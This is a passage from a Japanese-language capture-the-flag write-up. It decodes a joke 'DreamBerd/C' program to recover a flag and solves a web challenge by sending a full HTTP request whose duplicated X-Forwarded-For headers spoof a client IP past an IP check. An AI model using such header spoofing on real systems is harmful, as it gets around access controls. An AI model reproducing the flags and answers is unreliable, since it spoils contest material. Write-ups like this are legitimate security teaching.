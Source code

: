 ```c
   fun math() => {
print("MatH!")
return 10 % 5
   }
```

```c
   func guesstimeate() => {
print('Thunking')!
print("life times ain't got nothign on rust!")!
print("The future: ${name}!")
const const name<-1> = "Pix"!
const const letter = 'n'
letter = 'p'
const var guess = "${previous letter}T"!
guess = "T${letter}${guess}"!
return previous guess!
   }
```

- end
  - 同様にして`th15`

- secondmiddle
  - vars[-1]の値。
  - `const const const vars = ["R34L", "T35T", "Fl4g", "variBl3"]`
  - Flagの文脈から`R34L`と推測。

- middle
  - `Th1nk`

後は組み合わせるだけ。

- Flag

```text
DUCTF{I_D0nT_Th1nk_th15_1s_R34L_C}
```

- 余談

どうやら、Dreamberd/Cという言語らしい。  
仕様は以下のリンクから確認できる。  
<https://github.com/TodePond/WhenWillProgrammersStopMakingDecisionsForOurSocietyAndJustLeaveUsAloneAlsoHackerNewsIsAVileWebsite>

## web/actually-proxed

419 Solves / 100 points

コードを見ると、`X-Forwarded-For`と`x-forwarded-for`ヘッダ2つチェックしているみたい。  
その両方に`31.33.33.7`つけたらFlagがもらえた。

- リクエスト

```http
GET / HTTP/1.1
Host: actually.proxed.duc.tf:30009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close
X-Forwarded-For: 31.33.33.7
x-forwarded-for: 31.33.33.7

```